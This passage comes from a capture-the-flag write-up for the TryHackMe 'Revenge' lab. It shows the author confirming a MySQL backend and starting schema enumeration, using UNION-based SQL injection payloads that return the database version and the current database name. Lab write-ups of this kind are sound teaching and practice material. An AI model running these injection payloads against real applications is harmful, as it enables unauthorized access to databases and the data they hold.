 **Then, can now enumerate the database schema(structure)!**

In the `requirements.txt`, we know that **the web application is using MySQL as the DBMS(Database Management System).**

**Let's confirm that:** ([MySQL SQL Injection cheat sheet from pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet))
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,@@version-- -
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Revenge/images/Pasted%20image%2020221227021004.png)

Yep. **MySQL version 5.7.31-0ubuntu0.18.04.1.**

**Next, I wanna know which database I'm current in:**
```sql
0 UNION ALL SELECT NULL,NULL,NULL,NULL,1,1,NULL,database()-- -
```
